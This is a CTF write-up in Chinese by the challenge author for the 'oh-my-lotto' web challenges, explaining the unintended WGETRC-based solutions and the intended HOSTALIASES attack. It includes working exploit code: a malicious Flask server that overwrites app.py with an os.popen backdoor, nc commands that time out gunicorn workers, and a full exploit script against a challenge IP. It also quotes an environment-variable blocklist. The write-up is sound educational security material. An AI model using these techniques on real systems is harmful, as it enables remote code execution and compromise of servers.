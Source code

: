 # web-oh-my-lotto&revenge-ZH

## 写在前面的话

因为考虑不周全，这个题可能没给师傅们带来比较好的做题体验，实在抱歉，这里想就这个题给师傅们做一些解释。第一个题被非预期以后，在改revenge的时候思考了很多种方式，比如把`WGETRC`放到黑名单里面，或者是给附件用第一个题的flag加锁，但为了不泄露第一个题的解法，最终我还是选择不把`WGETRC`ban掉，只是把获取flag的方式限制为了必须要RCE才能获取，但同时也由于一些权限管理等问题，使得利用`WGETRC`同样可以解决revenge，这里确实是我没考虑周全，但确实也从师傅们的非预期学到了很多东西，下面我将还原一下我已知的非预期和预期解，希望能带给你新的知识。:)

## 非预期解

### oh-my-lotto

* 利用`WGETRC`设置`http_proxy`代理到自己服务器，下载一个和`forecast`一样的文件，可以获得flag。

* 利用`PATH`，将`lotto_result.txt`保存到其他路径，此时获得的`lotto_result.txt`为`result`，通过上传一个`result`字符串可以获得flag。

### oh-my-lotto-revenge

* 利用`WGETRC`配合`http_proxy`和`output_document`，覆盖本地的wget应用，然后利用wget完成RCE。

* 利用`WGETRC`配合`http_proxy`和`output_document`，写入SSTI到templates目录，利用SSTI完成RCE。

## 预期解

根据附件可以在本地搭建题目运行环境，根据源码中`app.py`所述逻辑，当上传的`forecast.txt`文件内容与`lotto_result.txt`文件内容相符时，可以获得flag，lotto容器中生成`lotto_result.txt`使用的是`secrets`库，该库函数使用安全的随机数生成方法，理论上不存在被预测的风险。

发现在进行lotto猜测的时候可以运行输入一次环境变量，该环境变量会被传递给`os.system('wget --content-disposition -N lotto')`，同时环境变量会经过`safe_check`函数检查

```
def safe_check(s):
    if 'LD' in s or 'HTTP' in s or 'BASH' in s or 'ENV' in s or 'PROXY' in s or 'PS' in s:
        return False
    return True
```

一些常见的环境变量利用方法都已经被禁止，通过翻阅Linux环境变量文档`http://www.scratchbox.org/documentation/general/tutorials/glibcenv.html`在Network Settings中发现有`HOSTALIASES`可以设置shell的hosts加载文件，利用`/forecast`路由可以上传待加载的hosts文件，将`wget --content-disposition -N lotto`发向lotto的请求转发到自己的域名例如如下hosts文件

```
# hosts
lotto mydomain.com
```
同时注意到wget请求添加了`--content-disposition -N`参数，说明请求的保存文件名将由服务方提供方指定的文件名决定，并可以覆盖原有的文件，那我们在自己的`mydomain.com`域名的80端口提供一个文件下载的功能，将返回文件名设置为`app.py`就可以覆盖当前题目的`app.py`文件，参考POC

```
from flask import Flask, request, make_response
import mimetypes

app = Flask(__name__)

@app.route("/")
def index():

    r = '''
from flask import Flask,request
import os


app = Flask(__name__)
@app.route("/test", methods=['GET'])
def test():
    a = request.args.get('a')
    a = os.popen(a)
    a = a.read()
    return str(a)

if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
'''

    response = make_response(r)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=app.py'
    return response



if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
```

此时发现已经覆盖了题目的`app.py`，但并不能直接RCE，因为题目使用gunicorn部署，`app.py`在改变的情况下并不会实时加载。但gunicorn使用一种`pre-forked worker`的机制，当某一个worker超时以后，就会让gunicorn重启该worker，让worker超时的的POC如下

```
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000
```

最终worker重新加载`app.py`，就可以完成RCE了，读取flag即可。参考完整POC如下


```
# exp.py

import requests
import os
import time
import subprocess

s = requests.session()

base_url = 'http://124.223.208.221:53000/'
url_upload = base_url + 'forecast'
proxies = {
    'http': 'http://127.0.0.1:8080'
}

r = s.post(url=url_upload, proxies=proxies, files={"file":("hosts", open('hosts', 'rb'))})
print(r.text)

url_env = base_url + 'lotto'
data = {
    'lotto_key': 'HOSTALIASES',
    'lotto_value': '/app/guess/forecast.txt'
}
r = s.post(url=url_env, data=data)

subprocess.Popen('./exploit.sh', shell=True)
# os.system('./exploit.sh')
for i in range(1, 53):
    print(i)
    time.sleep(1)

while True:
    url_shell = base_url + 'test?a=env'
    print(url_shell)
    r = s.get(url_shell)
    print(r.text)
    if '*ctf' in r.text:
        print(r.text)
        break
```
